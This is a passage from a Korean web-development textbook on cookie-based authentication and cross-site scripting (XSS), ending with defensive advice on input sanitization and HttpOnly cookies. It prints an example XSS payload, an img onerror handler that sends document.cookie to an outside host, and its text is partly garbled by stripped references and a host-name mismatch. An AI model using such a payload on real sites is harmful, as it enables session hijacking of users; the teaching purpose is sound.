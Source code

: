 Chrome이나 Firefox 등의 브라우저에서도 웹 서버의 동작을 확인해본다. 각 브라우저의 개발자 도구에서는 쿠키값을 확인할 수 있는데, \와 같이 개발자 도구의 Application 탭이나 Storage 탭을 이용하여 브라우저(클라이언트)가 저장하는 쿠키의 값을 확인해본다.

\subsection*{Cross-Site Scripting (XSS)}

앞에서 언급한 바와 같이 쿠키를 이용한 인증 방식은 구조적으로 보안 문제를 가지고 있으며, 세션 방식 역시 이 문제에서 완전히 자유롭지 못하다. 예를 들어 공격자가 A라는 사용자가 서버와의 통신을 위해 저장한 쿠키에 포함된 세션 ID를 탈취하고 이를 이용하여 HTTP 요청을 보내면 서버는 공격자를 사용자 A로 인식한다.

쿠키를 탈취하는 여러 방법 중 가장 기초적인 방법은 Cross-Site Scripting(XSS)이다. 공격자는 다른 사용자의 쿠키값을 공격자의 서버로 전송하는 악성 스크립트를 HTML 문서에 삽입하여 해당 문서를 열람한 사용자의 쿠키를 탈취한다. 이러한 공격은 대체로 게시글 등록 기능, 특히 HTML 작성 기능을 통해 주로 발생하며 악성 스크립트를 포함한 게시글을 열람한 사용자는 공격자에게 쿠키를 탈취당하게 된다.

\begin{code}{code:xss-example}{Simple Example of XSS}
\begin{verbatim}
<p>Welcome!</p>
<img src="#"
     onerror="location.href=$`http://kweb.io/get_cookie?cookie=${document.cookie}`">
\end{verbatim}
\end{code}

\은 XSS 공격의 간단한 예시로, 공격자는 이러한 내용의 글을 등록하여 서버의 DB에 저장한다. 이후 다른 사용자가 이 게시물을 열람하기 위해 요청을 보내면 이 코드가 포함된 HTML 문서를 응답으로 받게되며, 렌더링 과정에서  태그의 에 해당하는 링크가 존재하지 않으므로  속성의 JS 코드가 실행된다.  객체에는 그 HTML 문서를 요청하는데 사용된 쿠키가 저장되어 있으므로 myserver.io라는 서버에 쿠키값을 그대로 전송하게 된다.

이렇게 XSS는 공격자 입장에서는 공격하기 쉽고, 개발자 입장에서는 방어하기 힘들며, 일반 사용자 입장에서는 당하기 쉽고 당했는지도 알기 힘든 공격 방식이다. 이로 인해 사용자가 다른 웹 사이트에 접속하려고 할 때 신뢰할 수 있는 사이트에만 접속하라는 메시지를 띄우는 웹 사이트도 있다.

웹 서버 개발자는 XSS 공격을 반드시 방어하여야 한다. 사용자로부터 들어오는 입력값 중 게시글과 같이 DB에 저장된 후 다른 사용자에게 보여지는 입력값을 검증하여, XSS가 발생할 수 있는 부분을 제거해야 하며, 이러한 작업을 sanitize(소독)라고 한다. 다행히도 이러한 sanitize 작업을 수행해주는 모듈이 많이 개발되어 있어 개발자는 이러한 모듈을 적극 활용하여 XSS 공격을 예방할 수 있다. 또한, 궁극적인 방어 방법은 아니지만 쿠키를 로 설정하여  객체를 통해 쿠키값에 접근할 수 없게 할 수도 있다. 앞의 \는  쿠키를 자동으로 추가하며, \과 \를 통해 확인할 수 있다.
